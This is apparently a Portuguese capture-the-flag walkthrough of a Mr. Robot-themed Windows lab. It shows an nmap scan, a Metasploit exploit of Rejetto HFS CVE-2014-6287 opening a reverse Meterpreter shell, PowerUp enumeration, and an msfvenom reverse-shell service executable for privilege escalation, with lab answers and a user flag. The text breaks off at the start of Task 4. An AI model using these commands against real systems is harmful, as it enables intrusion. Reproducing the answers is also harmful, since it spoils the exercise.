

# Introdução

O objetivo dessa room é hackear uma máquina Windows com tema Mr. Robot. Uso do metasploit para acesso inicial, utilização de powershell para enumeração de escalonamento de privilégios do Windows e uso de uma nova técnica para obter acesso de administrador.

# Execução

## Task 1 - Introduction

A primeira tarefa consiste apenas em realizar o deploy da VM alvo e responder uma questão. 

Ao abrir o ip da VM no navegador, é exibida a página, conforme figura abaixo:


Como dica para resposta da questão da task: ***Reverse image search***.

Primeira medida, consultar o código fonte da página para ver se tem alguma pista:


Nome do arquivo da foto do empregado: ***BillHarper.png***. Está ai a resposta!!!
### Questões:

- a. ***Who is the employee of the month?*** *Bill Harper*

## Task 2 - Initial Access  

Após o deploy da VM, primeiro etapa para continuar com a resolução da room, é um scan port.

### nmap

Criando uma variável de ambiente com o IP do alvo:

```shell
export TARGET=10.10.44.161
```

Execução do nmap:

```shell
nmap -A -T5 -Pn -p- $TARGET -oX portscan -vvv
```

Mais informações do comando acima no [link](https://explainshell.com/explain?cmd=nmap+-A+-T5+-Pn+-p-+%24TARGET+-oX+portscan+-vvv)

Outra porta está respondendo na web, a porta 8080. Ao abrir no browser http://TARGET:8080, observa-se que existe um serviço HPS rodando. Ao acessar http://www.rejetto.com/hfs/, site do fornecedor, pode ser respondida a questão ***b***.

### Pesquisa por CVE

De posse do nome do serviço e versão (HttpFileServer 2.3), pode-se acessar o https://www.exploit-db.com/ para verificar a existência de exploits e checar qual CVE para responder a questão ***c***.

A pesquisa é retornada diretamente no link: https://www.exploit-db.com/exploits/49125

Na própria descrição, existe a CVE indicada: CVE-2014-6287. Para responder a questão ***c***, colocar apenas a parte que tem os números, ou seja, 2014-6287.

### Acesso inicial

Inicia-se o msfconsole:

```shell
msfconsole
```

Pesquisa dentro da console do msfconsole:



Habilitar o exploit:

```shell
msf6 > use exploit/windows/http/rejetto_hfs_exec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Para confirmar o que necessida ser configurado, basta digitar ***options***.

Após realizar as configurações necessárias, basta executar o comando ***run***.

```shell
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.8.95.233:4443 
[*] Using URL: http://10.8.95.233:8888/qYhpuVYDp6r7
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /qYhpuVYDp6r7
[*] Meterpreter session 1 opened (10.8.95.233:4443 -> 10.10.44.161:49278) at 2022-07-17 20:06:02 -0400
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\UDHzvnZunWC.vbs' on the target

meterpreter > 
```

Para responder a questão, há uma dica ***C:\Users\bill\Desktop***. Após a shell reversa ser aberta, basta ir até o diretório indicado e visualizar o conteúdo do arquivo ***user.txt***.

```shell
meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

meterpreter > cat user.txt
b04763b6fcf51fcd7c13abc7db4fd365
meterpreter > 
```

### Questões:

- a. ***Scan the machine with nmap. What is the other port running a web server on?*** *8080*

- b. ***Take a look at the other web server. What file server is running?*** *Rejetto HTTP File Server*

- c. ***What is the CVE number to exploit this file server?*** *2014-6287*

- d. ***Use Metasploit to get an initial shell. What is the user flag?*** *b04763b6fcf51fcd7c13abc7db4fd365*

## Task 3 - Privilege Escalation  

Agora que já se tem um acesso inicial ao alvo, deve-se realizar uma enumeração em busca de fraquezas que possam ser exploradas para elevar privilégios.

Para enumerar esta máquina, pode-se usar o script powershell chamado ***[PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)***, cujo objetivo é avaliar uma máquina Windows e determinar quaisquer anormalidades, que permitam escalonamento de privilégios do Windows que dependem de configurações incorretas.

Após realizar o download do script para a máquina atacante, dentro do msfconsole, é possível realizar o upload, com o comando:

```shell
upload PATH_ONDE_SALVOU_O_DOWNLOAD_DO_SCRIPT/PowerUp.ps1
```

Execução:

```shell
meterpreter > upload /home/kali/PowerUp.ps1
[*] uploading  : /home/kali/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 2.13 MiB of 2.13 MiB (100.0%): /home/kali/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/kali/PowerUp.ps1 -> PowerUp.ps1
```

Para executar o script, primeiro inicia-se o powershell dentro da console do meterpreter:

```shell
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > 
```

Execução do script:

```shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```
Na saída, haverá a resposta para questão ***b*** .

A opção CanRestart estando configurada como Trus, nos permite reiniciar um serviço no sistema, o diretório para o aplicativo também é gravável, permitindo que possamos substituir o aplicativo legítimo por um malicioso, reiniciar o serviço, que executará nosso programa infectado!

Com o msfvenom, vamos gerar um shell reverso como um executável do Windows:

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=IP_HOST_ATACANTE LPORT=4444 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

### Questões:

- a. ***Informações sobre como enumerar o alvo*** *Não há necessidade de resposta*

- b. ***Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?*** *AdvancedSystemCareService9*

- c. 

## Task 4 - Access and Escalation Without Metaspl
oit 


